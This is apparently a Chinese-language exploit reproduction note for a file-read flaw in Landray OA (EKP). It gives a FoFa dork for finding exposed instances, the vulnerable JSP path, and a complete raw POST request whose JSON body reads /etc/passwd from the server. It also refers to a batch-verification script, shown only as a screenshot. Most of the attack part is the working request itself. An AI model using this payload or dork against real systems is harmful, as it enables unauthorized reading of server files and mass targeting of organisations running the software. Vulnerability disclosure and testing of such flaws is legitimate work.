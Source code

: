 # 影响范围：
蓝凌OA（EKP）
# FoFa Dork
app="Landray-OA系统"
# 漏洞复现：
登录页面：
![image](images/login.png)
访问漏洞地址/sys/ui/extend/varkind/custom.jsp，使用burpsuite进行抓包，变更发包方式为POST，并添加POST数据，请求包如下：  
```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 44

var={"body":{"file":"file:///etc/passwd"}}
```
返回结果：  
![image](images/burp.png) 
使用脚本批量验证：    
![image](images/script.png)  